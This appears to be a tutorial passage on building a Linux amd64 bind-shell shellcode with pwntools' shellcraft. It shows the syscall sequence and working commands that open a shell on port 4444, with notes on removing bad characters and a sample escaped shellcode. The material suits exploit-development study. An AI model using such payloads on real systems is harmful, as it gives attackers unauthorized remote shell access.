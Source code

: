 1. **socket()** - Create a TCP socket
2. **bind()** - Bind socket to a port
3. **listen()** - Listen for incoming connections
4. **accept()** - Accept client connection
5. **dup2()** - Redirect stdin, stdout, stderr to socket
6. **execve()** - Execute "/bin/sh"

Let's first generate each system call separately:

But before that, I want to highlight how incredibly straightforward it is to pass arguments to syscalls using pwntools' shellcraft module - you simply need to write the syscall name followed by its arguments in natural order!

You can always take help of your friend `man 2 [syscall_name]`.

```bash
# Socket syscall: socket(AF_INET=2, SOCK_STREAM=1, protocol=0)
pwn shellcraft amd64.linux.syscalls.socket 2 1 0 -f a

# Bind syscall: bind(sockfd, &addr, addrlen=16)
# Use 0 for INADDR_ANY (0.0.0.0)
pwn shellcraft amd64.linux.syscalls.bind 3 0 4444 -f a

# Listen syscall: listen(sockfd, backlog=1)
pwn shellcraft amd64.linux.syscalls.listen 3 1 -f a

# Accept syscall: accept(sockfd, NULL, NULL)
pwn shellcraft amd64.linux.syscalls.accept 3 0 0 -f a

# Dup2 syscalls: dup2(clientfd, 0), dup2(clientfd, 1), dup2(clientfd, 2)
pwn shellcraft amd64.linux.dup2 4 0 -f a
pwn shellcraft amd64.linux.dup2 4 1 -f a  
pwn shellcraft amd64.linux.dup2 4 2 -f a

# Execute shell: execve("/bin/sh", NULL, NULL)
pwn shellcraft amd64.linux.sh -f a

# To remove badchars let's say "\x00\x0a\x0d"
# Use -v to avoid specific bad characters
pwn shellcraft amd64.linux.sh -f escaped -v "\x00\x0a\x0d"
```

But the bad chars were not being removed and I don't know the reason but they can be removed if you make script.

*Example*

When we generate a shellcode which echoes "Hello World" we see `\x01` byte into it. And let's say it turns out to be a bad char.

```bash
pwn shellcraft amd64.linux.echo "Hello World" -f escaped -v "\x01"
\x68\x73\x6d\x65\x01\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x48\x65\x6c\x6c\x6f\x20\x57\x6f\x50\x6a\x01\x58\x6a\x01\x5f\x6a\x0b\x5a\x48\x89\xe6\x0f\x05
```
